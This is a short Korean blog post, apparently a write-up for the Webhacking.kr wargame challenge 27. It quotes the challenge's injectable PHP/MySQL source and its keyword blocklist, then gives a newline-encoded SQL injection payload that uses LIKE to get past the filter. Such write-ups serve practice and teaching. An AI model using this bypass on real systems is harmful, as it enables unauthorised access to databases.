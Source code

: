 ```yaml
---
layout: post
title: "Webhacking.kr 27번 문제"
description: ""
categories : development
sub_categories : ""
date: 2016-05-01
tags: ['27번', '풀이']
comments: true
share: true
---
```


27번문제는 `SQL INJECTION`관련 문제입니다.

해당 문제의 소스를 보면, index.phps 가 주석처리되어있습니다.

해당 파일을 보면 아래와 같은 소스를 볼수있습니다. no라는 파라미터에 값을 1로 하면 `gest`가 출력되고 1이외 값을 대입했을때는

쿼리에러를 출려합니다. 두번째 조건의 필터링을 우회해서 쿼리문을 만들어 요청해본다.

  

0) or like 2 (`0)%0Aor%0Ano%0Alike%0A2%0A--+`)

  

  

    if($_GET[no]){if(eregi("#|union|from|challenge|select|\(|\t|/|limit|=|0x",$_GET[no])) exit("no hack");$q=@mysql_fetch_array(mysql_query("select id from challenge27_table where id='guest' and no=($_GET[no])")) or die("query error");if($q[id]=="guest") echo("guest");if($q[id]=="admin") @solve();}

![](/assets/images/posts/612/2615984C5725EB39214638.JPEG)

  

